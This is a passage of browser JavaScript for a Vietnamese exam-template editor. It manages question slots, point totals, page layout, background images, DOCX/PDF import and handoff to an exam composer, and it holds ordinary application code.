  const total = allSlots().reduce((n, { slot }) => n + Math.round(Number(slot.points || 0) * 100), 0) / 100;
  const target = Number(ui.template.defaults?.total_points ?? 10);
  return `Tổng điểm: ${total.toFixed(2)} / ${target.toFixed(2)}${Math.abs(total - target) > 0.001 ? ' — cần kiểm tra' : ''}`;
}
function syncScores() {
  for (const section of ui.template.sections) {
    section.slots.forEach((slot, index) => { slot.position = index; });
    section.declared_points = (section.slots.reduce((n, slot) => n + Math.round(Number(slot.points) * 100), 0) / 100).toFixed(2);
  }
}
// Chia tong diem de (don vi 0,01) deu cho moi cau; phan du 0,01 duoc cong lan
// luot vao cac cau CUOI de cau dau giu so tron. Chi ap dung khi giao vien bam.
function distributePoints() {
  const slots = allSlots();
  const total = Math.round(Number(ui.template.defaults?.total_points) * 100);
  if (!slots.length || !Number.isFinite(total) || total < slots.length) { status('Thang điểm quá nhỏ để chia cho số câu hiện có (tối thiểu 0,01/câu).', true); return; }
  if (!confirm(`Chia ${(total / 100).toFixed(2)} điểm đều cho ${slots.length} câu? Điểm hiện tại sẽ bị thay.`)) return;
  const base = Math.floor(total / slots.length);
  const remainder = total - base * slots.length;
  slots.forEach(({ slot }, index) => { slot.points = ((base + (index >= slots.length - remainder ? 1 : 0)) / 100).toFixed(2); });
  syncScores(); markDirty();
  status(remainder ? `Đã chia đều; ${remainder} câu cuối được cộng thêm 0,01 điểm để tổng khớp chính xác.` : 'Đã chia đều điểm.');
}
function markDirty() { ui.dirty = true; ui.draft = null; renderEditor(); }
async function loadGallery() {
  try {
    const data = await api('/api/templates');
    ui.templates = data.templates;
    renderGallery();
  } catch (err) { status(err.message, true); }
}
function renderShell() {
  dialog.replaceChildren();
  const top = node('div', null, 'template-top');
  top.append(node('h2', 'Thư viện mẫu đề'), button('Đóng', () => dialog.close()));
  const statusBar = node('div', null, 'template-status');
  statusBar.setAttribute('aria-live', 'polite');
  dialog.append(top, statusBar);
  dialog.append(node('div', null, 'template-gallery'));
  dialog.append(node('div', null, 'template-editor'));
}
function renderGallery() {
  const gallery = dialog.querySelector('.template-gallery');
  gallery.replaceChildren();
  const search = node('input'); search.placeholder = 'Tìm mẫu đề'; search.setAttribute('aria-label', 'Tìm mẫu đề');
  const importFile = node('input'); importFile.type = 'file'; importFile.accept = '.json,application/json';
  const importButton = button('Nhập mẫu JSON', async () => {
    const file = importFile.files[0];
    if (!file) { status('Chọn file JSON mẫu trước khi nhập.', true); return; }
    if (file.size > 1024 * 1024) { status('File mẫu vượt 1 MiB.', true); return; }
    try {
      const imported = JSON.parse(await file.text());
      const template = imported.template || imported;
      template.template_id = `user.${crypto.randomUUID()}`;
      template.template_version = 1; template.origin = 'user'; template.is_builtin = false;
      const data = await api('/api/templates', { method: 'POST', body: JSON.stringify({ template }) });
      await loadGallery(); await openTemplate(data.template.template_id);
      status('Đã nhập cấu trúc mẫu. Asset tham chiếu cần có sẵn trong thư viện nền của máy này.');
    } catch (err) { status(err.message, true); }
  });
  const origin = node('select'); origin.setAttribute('aria-label', 'Lọc nguồn mẫu');
  [['', 'Tất cả mẫu'], ['builtin', 'Mẫu gốc'], ['user', 'Mẫu của tôi']].forEach(([value, title]) => { const option = node('option', title); option.value = value; origin.append(option); });
  const grid = node('div', null, 'template-grid');
  const draw = () => {
    grid.replaceChildren();
    const query = search.value.toLocaleLowerCase('vi');
    ui.templates.filter(t => (!origin.value || t.origin === origin.value) &&
      `${t.display_name} ${t.description || ''} ${t.category || ''} ${t.defaults?.subject || ''}`.toLocaleLowerCase('vi').includes(query)).forEach(t => {
      const card = node('div', null, 'template-card');
      card.append(node('strong', t.display_name), node('span', `${t.sections.length} phần · ${allSlots(t).length} câu · ${t.is_builtin ? 'Mẫu gốc' : 'Tùy chỉnh'}`));
      card.append(button('Mở mẫu', () => openTemplate(t.template_id)));
      grid.append(card);
    });
  };
  search.addEventListener('input', draw);
  origin.addEventListener('change', draw);
  gallery.append(search, origin, importFile, importButton, grid);
  draw();
}
async function openTemplate(id) {
  if (ui.dirty && !confirm('Bỏ các thay đổi chưa lưu?')) return;
  try {
    const data = await api(`/api/templates/${encodeURIComponent(id)}`);
    ui.template = data.template;
    ui.backgroundUrl = null;
    ui.selected = allSlots()[0]?.slot.slot_id || null;
    ui.promptSelection = new Set();
    ui.promptGroup = 'FULL_EXAM'; ui.aiVariant = 'ChatGPT'; ui.repairIntent = 'rewrite-one';
    ui.dirty = false;
    ui.draft = null;
    ui.undo = null;
    dialog.querySelector('.template-gallery').hidden = true;
    renderEditor();
    status('Đã mở mẫu. Mẫu gốc giữ cố định số phần và số câu.');
  } catch (err) { status(err.message, true); }
}
// is_correct phai luon suy ra tu correct_answer: bo xao lua chon cua trinh soan
// de cu dua vao is_correct de tinh lai chu cai dap an sau khi xao.
function syncCorrectOption(content) {
  if (!content || !Array.isArray(content.options)) return content;
  const key = String(content.correct_answer || '').trim().toUpperCase();
  content.options.forEach(option => { option.is_correct = option.option_key === key; });
  return content;
}
function selectedSlot() { return allSlots().find(({ slot }) => slot.slot_id === ui.selected)?.slot; }
function reorder(direction) {
  for (const section of ui.template.sections) {
    const index = section.slots.findIndex(slot => slot.slot_id === ui.selected);
    const next = index + direction;
    if (index >= 0 && next >= 0 && next < section.slots.length) {
      [section.slots[index], section.slots[next]] = [section.slots[next], section.slots[index]];
      syncScores();
      markDirty(); return;
    }
  }
}
function addSlotToSection(targetSection) {
  if (ui.template.is_builtin) {
    if (confirm('Mẫu gốc giữ cố định số câu ban đầu. Bạn có muốn tạo Bản sao tùy chỉnh để thêm câu ngay bây giờ không?')) {
      const sectionIndex = Math.max(0, ui.template.sections.indexOf(targetSection));
      cloneTemplate().then(() => {
        // Clone that bai thi ui.template van la mau goc: dung lai, khong hoi lap.
        if (!ui.template.is_builtin) addSlotToSection(ui.template.sections[sectionIndex]);
      });
    }
    return;
  }
  const section = targetSection || ui.template.sections[0];
  if (!section) return;
  const slotCount = section.slots.length + 1;
  const isEssay = section.kind === 'ESSAY';
  const slot = {
    slot_id: `slot.${crypto.randomUUID()}`,
    position: section.slots.length,
    question_type: isEssay ? 'ESSAY' : 'MCQ',
    difficulty_level: 'NB',
    points: isEssay ? '1.00' : '0.50',
    required: true,
    answer_space: isEssay
      ? { kind: 'lined', lines: 4, min_lines: 2, max_lines: 12, auto_expand: true }
      : { kind: 'none', lines: 0, min_lines: 0, max_lines: 0, auto_expand: false },
    content: {},
    assets: []
  };
  section.slots.push(slot);
  ui.selected = slot.slot_id;
  syncScores();
  markDirty();
}

function addSlot() {
  const currentSlot = selectedSlot();
  const currentSection = currentSlot ? ui.template.sections.find(s => s.slots.includes(currentSlot)) : null;
  addSlotToSection(currentSection || ui.template.sections[0]);
}
function renderEditor() {
  const root = dialog.querySelector('.template-editor');
  root.replaceChildren();
  if (!ui.template) return;
  const t = ui.template, editable = !t.is_builtin;
  const header = node('div', null, 'template-editor-header');
  header.append(node('h3', t.display_name), node('span', scoreLabel()));
  header.append(button('Xuất mẫu JSON', () => {
    const blob = new Blob([JSON.stringify({ format: 'exambuilder-template', template: t }, null, 2)], { type: 'application/json' });
    const url = URL.createObjectURL(blob); const link = node('a'); link.href = url; link.download = `${t.template_id}.json`;
    document.body.append(link); link.click(); link.remove(); setTimeout(() => URL.revokeObjectURL(url), 1000);
  }));
  header.append(button('Chọn mẫu khác', () => {
    const gallery = dialog.querySelector('.template-gallery'); gallery.hidden = false; gallery.scrollIntoView({ block: 'start' });
  }));
  header.append(button('Tạo bản sao tùy chỉnh', cloneTemplate));
  header.append(button('+ Thêm câu', addSlot));
  if (editable) {
    header.append(button('Lưu', saveTemplate), button('Thêm phần', () => {
      const section_id = `section.${crypto.randomUUID()}`;
      t.sections.push({ section_id, title: `Phần ${t.sections.length + 1}`, kind: 'ESSAY', declared_points: '1.00',
        layout: { columns: 1, keep_heading_with_next: true }, slots: [{ slot_id: `${section_id}.q001`, position: 0,
          question_type: 'ESSAY', difficulty_level: 'NB', points: '1.00', required: true,
          answer_space: { kind: 'lined', lines: 4, min_lines: 2, max_lines: 12, auto_expand: true }, content: null, assets: [] }] });
      syncScores(); ui.selected = t.sections.at(-1).slots[0].slot_id; markDirty();
    }), button('Xóa mẫu', deleteTemplate));
  }
  header.append(button('Mở trong trình soạn đề', openInLegacy));
  root.append(header);
  const settings = node('details', null, 'template-settings');
  settings.append(node('summary', 'Thông tin đề và thiết lập trang'));
  if (editable) settings.append(field('Tên đề', t.display_name, value => { t.display_name = value; ui.dirty = true; renderEditor(); }));
  const updateDefault = (key, value) => { t.defaults[key] = value; ui.dirty = editable; ui.refreshPrompt?.(); };
  settings.append(field('Tiêu đề đề đang soạn', t.defaults.exam_title || t.display_name, value => updateDefault('exam_title', value)));
  settings.append(field('Môn học', t.defaults.subject, value => updateDefault('subject', value)));
  settings.append(field('Lớp', t.defaults.grade, value => updateDefault('grade', value)));
  settings.append(field('Chủ đề', t.defaults.topic, value => updateDefault('topic', value)));
  settings.append(field('Trường', t.defaults.school_header, value => updateDefault('school_header', value)));
  settings.append(field('Thời gian (phút)', t.defaults.duration_minutes, value => updateDefault('duration_minutes', Number(value)), 'number', { min: '1' }));
  if (editable) {
    settings.append(field('Thang điểm đề', t.defaults.total_points, value => { t.defaults.total_points = Number(value).toFixed(2); markDirty(); }, 'number', { min: '0.01', step: '0.01' }));
    settings.append(select('Khổ giấy', t.appearance.paper, [['A4','A4'],['A5','A5']], value => { t.appearance.paper = value; markDirty(); }));
    settings.append(select('Chiều giấy', t.appearance.orientation, [['portrait','Dọc'],['landscape','Ngang']], value => { t.appearance.orientation = value; markDirty(); }));
    settings.append(select('Phân trang', t.pagination.mode, [['auto','Tự động'],['max_pages','Giới hạn số trang']], value => { t.pagination.mode = value; t.pagination.max_pages = value === 'max_pages' ? 2 : null; markDirty(); }));
    if (t.pagination.mode === 'max_pages') settings.append(field('Số trang tối đa', t.pagination.max_pages, value => { t.pagination.max_pages = Number(value); ui.dirty = true; }, 'number', { min: '1', max: '100' }));
    t.appearance.margins_mm ||= { top: 18, bottom: 18, left: 18, right: 18 };
    for (const [key, label] of [['top','Lề trên (mm)'],['bottom','Lề dưới (mm)'],['left','Lề trái (mm)'],['right','Lề phải (mm)']]) {
      settings.append(field(label, t.appearance.margins_mm[key], value => {
        t.appearance.margins_mm[key] = Math.max(5, Math.min(40, Number(value) || 18)); markDirty();
      }, 'number', { min: '5', max: '40' }));
    }
    settings.append(select('Số cột', String(t.appearance.columns || 1), [['1','Một cột'],['2','Hai cột']], value => { t.appearance.columns = Number(value); markDirty(); }));
    t.appearance.header ||= { enabled: true, fields: ['school', 'exam_title'] };
    t.appearance.footer ||= { enabled: true, fields: ['page_number'] };
    settings.append(select('Header', t.appearance.header.enabled ? 'on' : 'off', [['on','Có (trường, tên đề)'],['off','Không']], value => { t.appearance.header.enabled = value === 'on'; markDirty(); }));
    settings.append(select('Footer số trang', t.appearance.footer.enabled ? 'on' : 'off', [['on','Có'],['off','Không']], value => { t.appearance.footer.enabled = value === 'on'; markDirty(); }));
    t.appearance.background ||= { asset_id: null, opacity: 0.12, fit: 'contain', apply_to: 'all' };
    settings.append(field('Độ đậm nền (0,05–1)', t.appearance.background.opacity ?? 0.12, value => {
      t.appearance.background.opacity = Math.max(0.05, Math.min(1, Number(value) || 0.12)); markDirty();
    }, 'number', { min: '0.05', max: '1', step: '0.05' }));
    settings.append(select('Nền áp dụng cho', t.appearance.background.apply_to || 'all', [['all','Mọi trang'],['first','Chỉ trang đầu']], value => { t.appearance.background.apply_to = value; markDirty(); }));
    settings.append(button('Chia đều điểm theo thang điểm đề', distributePoints));
  }
  root.append(settings);
  renderAssetPanel(root);
  const columns = node('div', null, 'template-columns');
  const list = node('div', null, 'template-list');
  for (const section of t.sections) {
    const sectionBox = node('section');
    sectionBox.append(node('h4', section.title));
    if (section.stimulus != null || editable) sectionBox.append(field('Ngữ liệu/đoạn đọc của phần', section.stimulus || '', value => {
      section.stimulus = value; ui.dirty = editable; ui.refreshPrompt?.();
    }, 'textarea'));
    sectionBox.append(button('Chọn phần cho prompt', () => {
      ui.promptSelection ||= new Set();
      section.slots.forEach(slot => ui.promptSelection.add(slot.slot_id));
      renderEditor();
    }));
    if (editable) {
      sectionBox.append(button('+ Thêm câu vào phần này', () => addSlotToSection(section)));
      sectionBox.append(button('Sửa tên phần', () => {
        const value = prompt('Tên phần', section.title);
        if (value?.trim()) { section.title = value.trim(); markDirty(); }
      }));
      if (t.sections.length > 1) sectionBox.append(button('Xóa phần', () => {
        if (!confirm(`Xóa ${section.title} và mọi câu trong phần?`)) return;
        t.sections.splice(t.sections.indexOf(section), 1);
        syncScores(); ui.selected = allSlots()[0]?.slot.slot_id || null; markDirty();
      }));
    } else {
      sectionBox.append(button('+ Thêm câu', () => addSlotToSection(section)));
    }
    section.slots.forEach((slot, index) => {
      const row = button(`${index + 1}. ${types[slot.question_type] || slot.question_type} · ${slot.points} điểm`, () => { ui.selected = slot.slot_id; ui.draft = null; renderEditor(); }, slot.slot_id === ui.selected ? 'selected' : '');
      const pick = node('label', null, 'template-prompt-pick');
      const box = node('input'); box.type = 'checkbox'; box.checked = ui.promptSelection?.has(slot.slot_id) || false;
      box.setAttribute('aria-label', `Chọn ${slot.slot_id} cho prompt`);
      box.addEventListener('change', () => {
        ui.promptSelection ||= new Set();
        if (box.checked) ui.promptSelection.add(slot.slot_id); else ui.promptSelection.delete(slot.slot_id);
        ui.draft = null;
        ui.refreshPrompt?.();
      });
      pick.append(box, row); sectionBox.append(pick);
    });
    list.append(sectionBox);
  }
  const inspector = node('div', null, 'template-inspector');
  const slot = selectedSlot();
  if (slot) {
    inspector.append(node('h4', `Thuộc tính câu · ${slot.slot_id}`));
    if (editable) {
      inspector.append(select('Loại câu', slot.question_type, Object.entries(types), value => { slot.question_type = value; markDirty(); }));
      inspector.append(field('Điểm', slot.points, value => {
        slot.points = Number(value).toFixed(2);
        syncScores();
        markDirty();
      }, 'number', { min: '0.01', step: '0.01' }));
      inspector.append(select('Mức độ', slot.difficulty_level, [['NB','Nhận biết'],['TH','Thông hiểu'],['VD','Vận dụng'],['VDC','Vận dụng cao']], value => { slot.difficulty_level = value; markDirty(); }));
      inspector.append(select('Vùng trả lời', slot.answer_space?.kind || 'lined', [['none','Không có'],['lined','Dòng kẻ'],['blank','Vùng trống'],['squared','Ô ly'],['table','Bảng'],['drawing','Khung vẽ']], value => { slot.answer_space.kind = value; markDirty(); }));
      inspector.append(field('Số dòng', slot.answer_space?.lines || 0, value => {
        const lines = Number(value); slot.answer_space.lines = lines;
        slot.answer_space.min_lines = Math.min(slot.answer_space.min_lines, lines);
        slot.answer_space.max_lines = Math.max(slot.answer_space.max_lines, lines);
        markDirty();
      }, 'number', { min: '0', max: '100' }));
    } else inspector.append(node('p', `${types[slot.question_type]} · ${slot.points} điểm · ${slot.answer_space?.lines || 0} dòng`));
    slot.content ||= {};
    const pages = t.appearance.background?.pages || [];
    if (pages.length) {
      inspector.append(node('h4', 'Vùng điền trên PDF nền'));
      // Chi tao vung khi giao vien chu dong gan: chon slot de xem khong duoc
      // tu dat cau vao toa do mac dinh tren trang nen.
      const region = slot.manual_region;
      if (!region) {
        inspector.append(node('p', 'Câu này xuất theo luồng văn bản, chưa gắn vào vị trí trên trang nền.'),
          button('Gắn vùng trên trang nền', () => {
            slot.manual_region = { page_number: Number(pages[0].page_number) || 1, x_pct: 10, y_pct: 10, width_pct: 80, height_pct: 10 };
            markDirty();
          }));
      } else {
        inspector.append(select('Trang', String(region.page_number), pages.map(page => [String(page.page_number), `Trang ${page.page_number}`]), value => { region.page_number = Number(value); markDirty(); }));
        for (const [key, label] of [['x_pct','X (%)'],['y_pct','Y (%)'],['width_pct','Rộng (%)'],['height_pct','Cao (%)']]) {
          inspector.append(field(label, region[key], value => { region[key] = Math.max(0, Math.min(100, Number(value))); markDirty(); }, 'number', { min: '0', max: '100', step: '1' }));
        }
        inspector.append(button('Bỏ vùng (xuất theo luồng văn bản)', () => { delete slot.manual_region; markDirty(); }));
      }
    }
    inspector.append(field('Đề bài', slot.content.content || '', value => { slot.content.content = value; ui.dirty = editable; ui.draft = null; }, 'textarea'));
    if (slot.question_type === 'MCQ') inspector.append(field('Lựa chọn A–D (mỗi dòng một lựa chọn)',
      (slot.content.options || []).map(option => option.option_text || '').join('\n'), value => {
        slot.content.options = value.split('\n').slice(0, 4).map((text, index) => ({ option_key: 'ABCD'[index], option_text: text.trim(), is_correct: false }));
        syncCorrectOption(slot.content);
        ui.dirty = editable; ui.draft = null;
      }, 'textarea'));
    inspector.append(field('Đáp án', slot.content.correct_answer || '', value => {
      slot.content.correct_answer = slot.question_type === 'MCQ' ? value.trim().toUpperCase() : value;
      syncCorrectOption(slot.content);
      ui.dirty = editable; ui.draft = null;
    }, 'textarea'));
    inspector.append(field('Lời giải', slot.content.explanation || '', value => { slot.content.explanation = value; ui.dirty = editable; ui.draft = null; }, 'textarea'));
    if (editable) {
      inspector.append(button('↑', () => reorder(-1)), button('↓', () => reorder(1)), button('Xóa câu', () => {
        const section = t.sections.find(s => s.slots.includes(slot));
        if (section.slots.length === 1) { status('Mỗi phần cần ít nhất một câu; hãy xóa cả phần nếu không dùng.', true); return; }
        section.slots.splice(section.slots.indexOf(slot), 1);
        ui.selected = allSlots()[0]?.slot.slot_id || null; syncScores(); markDirty();
      }));
    } else inspector.append(node('p', 'Sao mẫu để đổi cấu trúc. Nội dung vừa điền dùng được khi mở trong trình soạn đề.'));
  }
  columns.append(list, inspector);
  root.append(columns);
  renderPaperPreview(root);
  renderPromptPanel(root);
}
function applyPaperBackground(paper) {
  const bg = ui.template.appearance?.background || {};
  paper.classList.toggle('has-bg', Boolean(ui.backgroundUrl));
  paper.style.setProperty('--template-bg', ui.backgroundUrl ? `url("${ui.backgroundUrl.replace(/["\\\n]/g, encodeURIComponent)}")` : 'none');
  paper.style.setProperty('--template-bg-opacity', String(bg.opacity ?? 0.12));
  paper.style.setProperty('--template-bg-fit', bg.fit === 'cover' ? 'cover' : 'contain');
}
function renderPaperPreview(root) {
  const t = ui.template;
  const preview = node('section', null, 'template-paper-wrap');
  const controls = node('div', null, 'template-preview-controls');
  controls.append(node('h4', 'Xem trước trang đề'));
  const view = select('Hiển thị', ui.previewMode || 'student', [['student','Học sinh'],['teacher','Giáo viên'],['answer_key','Đáp án'],['combined','Đề và đáp án cuối']], value => { ui.previewMode = value; renderEditor(); });
  controls.append(view);
  const paper = node('div', null, `template-paper ${t.appearance.paper === 'A5' ? 'a5' : 'a4'} ${t.appearance.orientation === 'landscape' ? 'landscape' : ''}`);
  applyPaperBackground(paper);
  const mode = ui.previewMode || 'student';
  paper.append(node('div', t.defaults.school_header || 'Tên trường'), node('h3', t.defaults.exam_title || t.display_name),
    node('p', `${t.defaults.subject || 'Môn học'} · ${t.defaults.grade || 'Lớp'} · ${t.defaults.duration_minutes || ''} phút`));
  for (const section of t.sections) {
    paper.append(node('h4', `${section.title} (${section.declared_points} điểm)`));
    if (section.stimulus) paper.append(node('p', section.stimulus));
    const area = node('div', section.layout?.columns === 2 ? null : null, section.layout?.columns === 2 ? 'template-paper-two-cols' : '');
    section.slots.forEach((slot, index) => {
      const card = node('button', null, 'template-paper-slot'); card.type = 'button';
      card.classList.toggle('selected', slot.slot_id === ui.selected);
      card.append(node('strong', `Câu ${index + 1} (${slot.points} điểm)`));
      if (mode !== 'answer_key') card.append(node('p', slot.content?.content || '[Chưa có đề bài]'));
      if (mode !== 'answer_key' && slot.content?.options) slot.content.options.forEach(option => card.append(node('div', `${option.option_key}. ${option.option_text}`)));
      if ((mode === 'student' || mode === 'combined') && slot.answer_space?.lines > 0) {
        const lines = node('div', null, `template-answer-space ${slot.answer_space.kind}`);
        for (let n = 0; n < Math.min(slot.answer_space.lines, 12); n++) lines.append(node('div', ''));
        card.append(lines);
      }
      if (mode === 'teacher' || mode === 'answer_key') card.append(node('p', `Đáp án: ${slot.content?.correct_answer || '[chưa có]'}`),
        node('p', `Lời giải: ${slot.content?.explanation || '[chưa có]'}`));
      card.addEventListener('click', () => { ui.selected = slot.slot_id; ui.draft = null; renderEditor(); });
      area.append(card);
    });
    paper.append(area);
  }
  if (mode === 'combined') {
    const key = node('section', null, 'template-combined-key'); key.append(node('h3', 'Đáp án và hướng dẫn chấm'));
    allSlots().forEach(({ slot }, i) => key.append(node('p', `Câu ${i + 1} (${slot.points} điểm): ${slot.content?.correct_answer || '[chưa có]'} — ${slot.content?.explanation || '[chưa có]'}`)));
    paper.append(key);
  }
  preview.append(controls, paper);
  root.append(preview);
}
function renderAssetPanel(root) {
  const panel = node('details', null, 'template-settings');
  panel.append(node('summary', 'Nền và nhập Word/PDF'));
  const imageList = node('select'); imageList.setAttribute('aria-label', 'Thư viện ảnh nền');
  imageList.append(Object.assign(node('option', 'Không dùng nền'), { value: '' }));
  imageList.addEventListener('change', () => {
    ui.template.appearance.background ||= {};
    ui.template.appearance.background.asset_id = imageList.value || null;
    const selectedAsset = ui.assetMetadata?.get(imageList.value);
    ui.template.appearance.background.asset_manifest = selectedAsset ? [selectedAsset] : [];
    ui.backgroundUrl = imageList.selectedOptions[0]?.dataset.url || null;
    ui.dirty = !ui.template.is_builtin; renderEditor();
  });
  const loadAssets = async () => {
    try {
      const data = await api('/api/backgrounds/assets');
      ui.assetMetadata = new Map(data.assets.map(asset => [asset.asset_id, asset]));
      imageList.replaceChildren(Object.assign(node('option', 'Không dùng nền'), { value: '' }));
      data.assets.filter(a => a.mime?.startsWith('image/')).forEach(a => {
        const option = node('option', a.original_name || a.filename);
        option.value = a.asset_id; option.dataset.url = a.url; imageList.append(option);
      });
      imageList.value = ui.template.appearance.background?.asset_id || '';
      ui.backgroundUrl = imageList.selectedOptions[0]?.dataset.url || null;
      const paper = root.querySelector('.template-paper');
      if (paper) applyPaperBackground(paper);
    } catch (err) { status(err.message, true); }
  };
  const imageInput = node('input'); imageInput.type = 'file'; imageInput.accept = '.png,.jpg,.jpeg,.webp,.svg';
  const documentInput = node('input'); documentInput.type = 'file'; documentInput.accept = '.docx,.pdf';
  const result = node('pre', '', 'template-report');
  result.textContent = ui.importMessage || '';
  const importMode = select('Cách nhập tài liệu', 'structure', [['structure','Nhận diện cấu trúc và duyệt'],['background','Dùng file làm nền và đánh dấu vùng thủ công']], () => {});
  const suggestions = node('div', null, 'template-import-review');
  const pagePreview = node('div', null, 'template-pdf-pages');
  const drawPages = () => {
    pagePreview.replaceChildren();
    const pages = ui.template.appearance.background?.pages || [];
    pages.forEach(page => {
      const wrapper = node('div', null, 'template-pdf-page');
      const img = node('img'); img.src = page.url; img.alt = `Trang nền PDF ${page.page_number}`;
      wrapper.append(img);
      allSlots().filter(({ slot }) => slot.manual_region?.page_number === page.page_number).forEach(({ slot }) => {
        const r = slot.manual_region;
        const marker = button(slot.slot_id, () => { ui.selected = slot.slot_id; renderEditor(); }, 'template-region-marker');
        marker.style.left = `${r.x_pct}%`; marker.style.top = `${r.y_pct}%`;
        marker.style.width = `${r.width_pct}%`; marker.style.height = `${r.height_pct}%`;
        wrapper.append(marker);
      });
      pagePreview.append(node('p', `Trang ${page.page_number}: chọn slot rồi chỉnh X/Y/Rộng/Cao ở bảng thuộc tính.`), wrapper);
    });
  };
  panel.append(node('p', 'Ảnh nền tải lên từ máy hoặc chọn trong thư viện.'), imageList, imageInput,
    button('Tải ảnh nền', async () => {
      if (!imageInput.files[0]) { status('Chọn ảnh trước khi tải.', true); return; }
      const form = new FormData(); form.append('file', imageInput.files[0]);
      try {
        const response = await fetch('/api/backgrounds/upload', { method: 'POST', body: form });
        const data = await response.json(); if (!response.ok) throw new Error(data.error);
        ui.template.appearance.background ||= {}; ui.template.appearance.background.asset_id = data.asset.asset_id;
        ui.template.appearance.background.asset_manifest = [data.asset];
        ui.backgroundUrl = data.asset.url; ui.dirty = !ui.template.is_builtin;
        await loadAssets(); renderEditor(); status('Đã tải ảnh nền. Lưu bản sao để giữ nền; DOCX nhúng ảnh nhưng độ mờ trong Word có thể khác bản web.');
      } catch (err) { status(err.message, true); }
    }), node('p', 'Word/PDF có hai cách nhập riêng. PDF scan không được nhận diện chữ; không có OCR.'),
    importMode, documentInput, button('Nhập tài liệu', async () => {
      if (!documentInput.files[0]) { status('Chọn DOCX/PDF trước khi nhập.', true); return; }
      const form = new FormData(); form.append('file', documentInput.files[0]); form.append('mode', importMode.querySelector('select').value);
      try {
        const response = await fetch('/api/backgrounds/import', { method: 'POST', body: form });
        const data = await response.json(); if (!response.ok) throw new Error(data.error);
        result.textContent = `Tệp: ${data.asset.original_name}\n${data.warnings.join('\n')}\nCần giáo viên duyệt trước khi đưa vào đề.`;
        suggestions.replaceChildren();
        if (data.mode === 'structure') {
          for (const section of data.sections || []) {
            suggestions.append(node('h4', section.title));
            for (const question of section.questions || []) {
              const editor = field('Nội dung nhận diện (hãy sửa rồi gắn vào slot)', question.text || question.content || String(question), () => {}, 'textarea');
              suggestions.append(editor, button('Gắn vào slot đang chọn', () => {
                const slot = selectedSlot(); if (!slot) return;
                slot.content ||= {}; slot.content.content = editor.querySelector('textarea').value;
                ui.dirty = !ui.template.is_builtin; status('Đã gắn nội dung sau khi duyệt. Chọn slot tiếp theo để tiếp tục.');
              }));
            }
          }
        } else {
          ui.template.appearance.background ||= {};
          ui.template.appearance.background.source_asset_id = data.asset.asset_id;
          ui.template.appearance.background.pages = data.background_pages || [];
          ui.template.appearance.background.asset_manifest = [
            { ...data.asset, role: 'source_document', transfer: 'reference_only' },
            ...(data.background_pages || []).map(page => ({ ...page, asset_id: page.asset_id, sha256: page.sha256 || page.asset_id.slice(6), mime: page.mime || 'image/png', role: 'page_background', transfer: 'reference_only' }))
          ];
          ui.template.appearance.background.asset_id = data.background_pages?.[0]?.asset_id || null;
          ui.backgroundUrl = data.background_pages?.[0]?.url || null;
          ui.dirty = !ui.template.is_builtin;
          result.textContent += data.background_pages?.length
            ? `\nĐã tạo ${data.background_pages.length} ảnh trang nền. Gắn vùng điền bằng tọa độ trong thuộc tính slot.`
            : '\nTài liệu gốc đã lưu; chưa tạo được ảnh trang nền.';
          const sourceLink = node('a', `Tải tài liệu gốc: ${data.asset.original_name || 'DOCX/PDF'}`, 'template-download-link');
          sourceLink.href = data.asset.url; sourceLink.target = '_blank'; sourceLink.rel = 'noopener noreferrer';
          result.append(sourceLink);
          ui.importMessage = result.textContent;
          renderEditor();
          dialog.querySelector('.template-editor details:nth-of-type(2)')?.setAttribute('open', '');
        }
      } catch (err) { status(err.message, true); }
    }), result, suggestions, pagePreview);
  root.append(panel);
  loadAssets();
  drawPages();
}
async function cloneTemplate() {
  try {
    const source = ui.template;
    const template = structuredClone(source);
    template.template_id = `user.${crypto.randomUUID()}`;
    template.template_version = 1; template.origin = 'user'; template.is_builtin = false;
    template.derived_from = { template_id: source.template_id, template_version: source.template_version };
    template.display_name = `${source.display_name} (bản sao)`;
    const data = await api('/api/templates', { method: 'POST', body: JSON.stringify({ template }) });
    ui.template = data.template; ui.dirty = false; ui.selected = allSlots()[0]?.slot.slot_id || null;
    await loadGallery(); renderEditor(); status('Đã tạo bản sao tùy chỉnh.');
  } catch (err) { status(err.message, true); }
}
async function saveTemplate() {
  try {
    const t = ui.template;
    const data = await api(`/api/templates/${encodeURIComponent(t.template_id)}`, { method: 'PUT', body: JSON.stringify({ template: t, expected_version: t.template_version }) });
    ui.template = data.template; ui.dirty = false; await loadGallery(); renderEditor(); status('Đã lưu mẫu.');
  } catch (err) { status(err.message, true); }
}
async function deleteTemplate() {
  if (!confirm(`Xóa mẫu ${ui.template.display_name}?`)) return;
  try {
    await api(`/api/templates/${encodeURIComponent(ui.template.template_id)}`, { method: 'DELETE' });
    ui.template = null; ui.dirty = false; await loadGallery(); renderEditor(); status('Đã xóa mẫu.');
  } catch (err) { status(err.message, true); }
}
function openInLegacy() {
  const t = ui.template;
  const missing = missingContent();
  if (missing.length) { status(`Còn ${missing.length} câu chưa có đề bài hoặc đủ lựa chọn. Hãy dán kết quả AI hay điền nội dung trước khi mở trình soạn đề.`, true); return; }
  const badKey = allSlots().filter(({ slot }) => slot.question_type === 'MCQ' &&
    !syncCorrectOption(structuredClone(slot.content)).options.some(option => option.is_correct));
  if (badKey.length) { status(`Còn ${badKey.length} câu trắc nghiệm có đáp án không trùng A/B/C/D của lựa chọn. Sửa đáp án trước khi mở trình soạn đề.`, true); return; }
  const blocks = t.sections.map(section => ({ block_type: section.kind === 'ESSAY' ? 'ESSAY' : 'MULTIPLE_CHOICE', block_title: section.title,
    questions: section.slots.map(slot => {
      const content = syncCorrectOption(structuredClone(slot.content || {}));
      return { question_type: slot.question_type, difficulty_level: content.difficulty_level || slot.difficulty_level,
        content: content.content || '', correct_answer: content.correct_answer || '',
        explanation: content.explanation || '', draft_lines_count: slot.answer_space?.lines || 0,
        options: content.options || [],
        template_slot_id: slot.slot_id, points: slot.points };
    }) }));
  window.dispatchEvent(new CustomEvent('exambuilder:open-template', { detail: {
    blocks, title: t.defaults.exam_title || t.display_name, subject: t.defaults?.subject || '', duration_minutes: t.defaults?.duration_minutes || null,
    school_header: t.defaults?.school_header || '', template_id: t.template_id, template_version: t.template_version,
    template_binding: { schema_version: 1, template_id: t.template_id, template_version: t.template_version,
       template_snapshot: structuredClone(t), asset_manifest: buildAssetManifest(t) }
  } }));
  dialog.close();
}
function missingContent() {
  return allSlots().filter(({ slot }) => !slot.content?.content?.trim() ||
    (slot.question_type === 'MCQ' && (!Array.isArray(slot.content?.options) || slot.content.options.length < 4)));
}
function buildAssetManifest(template) {
  const refs = new Map();
  const add = (assetId, role, pageNumber = null, metadata = {}) => {
